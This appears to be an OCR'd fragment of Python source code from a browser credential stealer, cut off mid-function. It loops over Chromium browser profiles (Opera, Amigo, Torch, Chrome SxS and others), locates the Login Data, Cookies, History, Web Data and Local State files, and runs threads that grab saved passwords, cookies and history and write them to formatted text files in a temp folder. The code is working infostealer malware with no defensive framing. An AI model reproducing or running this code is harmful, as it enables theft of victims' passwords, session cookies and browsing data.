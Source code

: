         if os.path.exists(path):
            self.passwords_temp = self.cookies_temp = self.history_temp = self.misc_temp = self.formatted_cookies = ''
            sep = '='*40
            fname = lambda x: f'\\{platform} Info ({x}).txt'
            formatter = lambda p, c, h, m: f'Browser: {platform}\n\n{sep}\n               PASSWORDS\n{sep}\n\n{p}\n{sep}\n                COOKIES\n{sep}\n\n{c}\n{sep}\n                HISTORY\n{sep}\n\n{h}\n{sep}\n               OTHER INFO\n{sep}\n\n{m}'
            profiles = ['Default']
            for dir in os.listdir(path):
                if dir.startswith('Profile ') and os.path.isdir(dir): profiles.append(dir)
            if platform in [
                'Opera',
                'Opera GX',
                'Amigo',
                'Torch',
                'Kometa',
                'Orbitum',
                'CentBrowser',
                '7Star',
                'Sputnik',
                'Chrome SxS',
                'Epic Privacy Browser',
            ]:
                cpath = path + '\\Network\\Cookies'
                ppath = path + '\\Login Data'
                hpath = path + '\\History'
                wpath = path + '\\Web Data'
                mkpath = path + '\\Local State'
                fname = f'\\{platform} Info (Default).txt'
                threads = [
                    Thread(target=self.grabPasswords,args=[mkpath,platform,'Default',ppath]),
                    Thread(target=self.grabCookies,args=[mkpath,platform,'Default',cpath]),
                    Thread(target=self.grabHistory,args=[mkpath,platform,'Default',hpath]),
                    Thread(target=self.grabMisc,args=[mkpath,platform,'Default',wpath])
                ]
                for x in threads:
                    x.start()
                for x in threads:
                    x.join()
                try: self.grabPasswords(mkpath,fname,ppath); self.grabCookies(mkpath,fname,cpath); self.grabHistory(mkpath,fname,hpath); self.grabMisc(mkpath,fname,wpath)
                except Exception: self.exceptions.append(traceback.format_exc())
            else:
                for profile in profiles:
                    cpath = path + f'\\{profile}\\Network\\Cookies'
                    ppath = path + f'\\{profile}\\Login Data'
                    hpath = path + f'\\{profile}\\History'
                    wpath = path + f'\\{profile}\\Web Data'
                    mkpath = path + '\\Local State'
                    fname = f'\\{platform} Info ({profile}).txt'
                    threads = [
                        Thread(target=self.grabPasswords,args=[mkpath,platform,profile,ppath]),
                        Thread(target=self.grabCookies,args=[mkpath,platform,profile,cpath]),
                        Thread(target=self.grabHistory,args=[mkpath,platform,profile,hpath]),
                        Thread(target=self.grabMisc,args=[mkpath,platform,profile,wpath])
                    ]
                    for x in threads:
                        x.start()
                    for x in threads:
                        x.join()
            with open(self.tempfolder+f'\\{platform} Cookies ({profile}).txt', "w", encoding="utf8", errors='ignore') as m, open(self.tempfolder+fname, "w", encoding="utf8", errors='ignore') as f:
                if self.formatted_cookies:
